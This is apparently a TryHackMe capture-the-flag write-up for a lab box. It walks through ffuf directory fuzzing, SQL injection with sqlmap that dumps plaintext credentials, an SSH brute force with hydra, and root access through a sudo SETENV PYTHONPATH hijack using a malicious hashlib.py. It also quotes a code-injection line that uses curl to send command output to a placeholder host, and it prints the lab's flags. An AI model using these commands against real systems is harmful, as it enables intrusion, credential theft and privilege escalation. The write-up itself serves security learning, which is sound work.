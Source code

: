 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | ssh |
| 8000 | http |



# RECONNAISSANCE
---


![Pasted image 20250515122728.png](../../IMAGES/Pasted%20image%2020250515122728.png)


As we can see, we got a login page, let's try to fuzz before trying any vuln such as sqli or xss:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.160.42:8000/FUZZ" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.160.42:8000/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 338ms]
register [Status: 200, Size: 964, Words: 51, Lines: 27, Duration: 886ms]
logout [Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 190ms]
```

Seems like nothing important can be found, let's proceed to the login page then.

![Pasted image 20250515123053.png](../../IMAGES/Pasted%20image%2020250515123053.png)

A good approach is to understand the register process, as we can see, we got to enter the email `id`, this seems weird, let's submit the request to our proxy:

![Pasted image 20250515123302.png](../../IMAGES/Pasted%20image%2020250515123302.png)

I noticed that at the login page, if we use:

```
_
```

We get status code `500`, from a previous machine, I exploited this using a python server to perform:

```python
__import__('os').system('curl http://IP:8000?pwned=$(id|base64)')
```


This time I had no luck, let's proceed to testing `SQLI` and `XSS` then:


![Pasted image 20250515124333.png](../../IMAGES/Pasted%20image%2020250515124333.png)

If we use that, we get:


![Pasted image 20250515124345.png](../../IMAGES/Pasted%20image%2020250515124345.png)


Surprisingly, `SQLI` works, let's proceed to exploitation then.


# EXPLOITATION
---

Knowing that the `username` parameter is vulnerable, let's save the request to a file and use `sqlmap` to check if we can get anything valuable:


```
sqlmap -r "$(pwd)/req.req" --dbs --dump

Database: website
Table: users
[2 entries]
+----+----------------------+----------------+----------+
| id | email | password | username |
+----+----------------------+----------------+----------+
| 1 | smokey@email.boop | My_P@ssW0rd123 | smokey |
| 2 | test@test.com;whoami | test | test |
+----+----------------------+----------------+----------+
```


There we go, we got credentials, let's go into ssh

![Pasted image 20250515125529.png](../../IMAGES/Pasted%20image%2020250515125529.png)


We can begin privilege escalation.



# PRIVILEGE ESCALATION
---


To begin with, let's use `linpeas` so we can check any PE vector:

![Pasted image 20250515133638.png](../../IMAGES/Pasted%20image%2020250515133638.png)

As seen, we got another user named `hazel`, we can also find this:

![Pasted image 20250515133711.png](../../IMAGES/Pasted%20image%2020250515133711.png)

This task runs as `smokey` so we cannot get a root shell with that, if we check inside of `hazel` home, we can find this:

```
smokey@ip-10-10-160-42:~$ ls -la /home/hazel/
total 32
drwxr-xr-x 3 root root 4096 Mar 2 2022 .
drwxr-xr-x 5 root root 4096 May 15 17:18 ..
lrwxrwxrwx 1 root root 9 Dec 7 2021 .bash_history -> /dev/null
-rw-r--r-- 1 hazel hazel 220 Feb 25 2020 .bash_logout
-rw-r--r-- 1 hazel hazel 3771 Feb 25 2020 .bashrc
drwx------ 2 hazel hazel 4096 Dec 7 2021 .cache
-rw-r----- 1 root hazel 497 Dec 7 2021 hasher.py
-rw-r--r-- 1 hazel hazel 807 Feb 25 2020 .profile
-rw-r----- 1 root hazel 45 Mar 2 2022 user.txt
-rw------- 1 hazel hazel 0 Dec 7 2021 .viminfo
```

There's a file named `hasher.py`, seems like that could be our way into root, since we need `hazel` credentials and there seems to be no backup or anything that reveals us this user's password, let's try brute force:

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt IP ssh -t 4
```

![Pasted image 20250515135342.png](../../IMAGES/Pasted%20image%2020250515135342.png)

After a while we get:

```
hazel:hazel
```

Seems like the user was the password, let's go into ssh with those credentials then:

![Pasted image 20250515134533.png](../../IMAGES/Pasted%20image%2020250515134533.png)

We can now read the user flag:

```
hazel@ip-10-10-160-42:~$ cat user.txt
THM{G0Od_OLd_SQL_1nj3ct10n_&_w3@k_p@sSw0rd$}
```

If we check our sudo privileges, we can notice this:

```bash
hazel@ip-10-10-160-42:~$ sudo -l
Matching Defaults entries for hazel on ip-10-10-160-42:
 env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on ip-10-10-160-42:
 (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py


hazel@ip-10-10-160-42:~$ ls -l hasher.py
-rw-r----- 1 root hazel 497 Dec 7 2021 hasher.py
```

Let's check the code for the script:

```python
import hashlib

def hashing(passw):

 md5 = hashlib.md5(passw.encode())

 print("Your MD5 hash is: ", end ="")
 print(md5.hexdigest())

 sha256 = hashlib.sha256(passw.encode())

 print("Your SHA256 hash is: ", end ="")
 print(sha256.hexdigest())

 sha1 = hashlib.sha1(passw.encode())

 print("Your SHA1 hash is: ", end ="")
 print(sha1.hexdigest())


def main():
 passw = input("Enter a password to hash: ")
 hashing(passw)

if __name__ == "__main__":
 main()
```

We cannot write on the file so we need to exploit it using the `SETENV` tag, this tag allows us to set environment variables on the sudo command line, if we are able to hijack the `PYTHONPATH` we will get a shell as root, The`PYTHONPATH`environment variable controls where Python looks for modules. When Python imports a module like`hashlib`, it searches for the module in the following order:

- Current directory
- Directories in the`PYTHONPATH` environment variable
- Standard library directories
- Site-packages directories

Understanding the flow, we can follow these steps to get a root as shell:

1. **Create a malicious`hashlib.py` module** that spawns a shell when imported:

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
```

2. **Execute the`hasher.py` script with sudo**, hijacking the`PYTHONPATH` environment variable to include`/tmp`. 

```python
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

If we do this, we can see:

![Pasted image 20250515135207.png](../../IMAGES/Pasted%20image%2020250515135207.png)

As seen, we get a root as shell and can now read `root.txt`:

```
root@ip-10-10-160-42:/home/hazel# cat /root/root.txt
THM{PytH0n_LiBr@RY_H1j@acKIn6}
```

![Pasted image 20250515135418.png](../../IMAGES/Pasted%20image%2020250515135418.png)

